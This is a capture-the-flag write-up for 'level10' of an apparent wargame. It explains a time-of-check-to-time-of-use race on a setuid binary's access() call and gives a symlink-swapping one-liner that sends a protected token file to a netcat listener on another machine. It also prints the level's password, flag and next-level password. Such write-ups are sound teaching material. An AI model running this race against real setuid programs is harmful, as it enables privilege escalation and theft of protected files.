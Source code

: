 # Solve Level10
pass : s5cAJpM8ev6XHw998pRWG728z

## Description
- home
    - -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    - -rw-------  1 flag10  flag10     26 Mar  5  2016 token

### level10
- The binary takes 2 args, a file to send and an host
- He create a connection on port 6969 and send the file if we have perms
    - we can use nc to create a server on our machine ```nc -l -p 6969``` | ```nc -l 6969```
    - then ```./level10 file/to/send my_machine_ip```
      - it works, now we must find a way to send token ; ln does not work
      - we use decompiler and see the use of access ==> which can be exploit
        - cf TOCTOU [source][https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use]

## Solution
```bash
cd /tmp
echo pouet > pouet
ln -fs pouet link
ln -fs ~/token lel & ~/level10 lel 10.0.2.15
```

- flag10 : woupa2yuojeeaaed06riuj63c
- level11 : feulo4b72j7edeahuete3no7c


## Resolve problem
